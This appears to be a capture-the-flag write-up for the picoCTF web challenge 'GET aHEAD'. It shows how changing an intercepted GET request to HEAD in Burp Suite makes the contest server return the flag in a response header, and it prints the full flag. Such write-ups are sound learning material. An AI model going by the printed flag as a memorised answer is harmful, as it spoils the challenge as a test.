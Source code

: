 
## GET aHEAD

### Desccription :
Find the flag being held on this server to get ahead of the competition http://mercury.picoctf.net:47967/

## Solution

As challenge name given 'GET aHEAD' we have an idea about HEAD request.
Use BurpSuit for intercept request, it use GET request we have to change it to HEAD

```gettohead
HEAD /index.php HTTP/1.1

Host: mercury.picoctf.net:47967

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Connection: close
```

by changing the methon to HEAD we will get following response :
```response
HTTP/1.1 200 OK

flag: picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}

Content-type: text/html; charset=UTF-8

```

#### flag :   picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}
